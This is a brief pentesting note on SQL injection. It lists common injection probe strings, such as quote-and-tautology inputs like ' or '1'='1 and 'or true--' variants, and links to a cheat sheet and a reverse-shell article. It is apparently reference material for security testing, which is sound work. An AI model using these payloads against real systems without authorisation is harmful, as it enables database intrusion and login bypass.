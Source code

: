 # SQL injection

## Basic techniques
Stick this in a parameter and see if it throws a database error:
```
' or '1'='1
```
Other tests:
```
-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
```
## SQLmap
To-do

## Further reading
* [SQL injection cheat sheet](http://pentestmonkey.net/category/cheat-sheet/sql-injection)
* [Gaining a reverse shell from SQL injection](https://resources.infosecinstitute.com/anatomy-of-an-attack-gaining-reverse-shell-from-sql-injection/)
